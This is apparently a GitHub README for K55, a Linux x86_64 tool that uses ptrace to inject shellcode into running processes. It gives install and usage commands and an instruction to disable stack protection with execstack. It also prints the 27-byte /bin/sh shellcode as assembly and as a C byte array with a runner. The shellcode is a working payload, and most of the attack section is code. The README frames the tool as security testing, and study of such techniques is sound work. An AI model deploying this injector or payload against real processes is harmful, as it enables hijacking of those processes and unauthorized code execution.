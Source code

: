 ## K55 - Linux x86_64 Process Injection Utility (C++11)
<p align="center">
  <img src="https://github.com/josh0xA/K55/blob/master/imgs/k55logo.png?raw=true">
</p>
## About K55 
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space. In the future, I will allow users to input there own shellcode via command line arguments.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root). 
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p> 

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` calls are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack from you distrobutions package manager. For Arch Linux users, you can find execstack on the AUR. 

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

#### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License 
MIT License <br/>
Copyright (c) Josh Schiavone
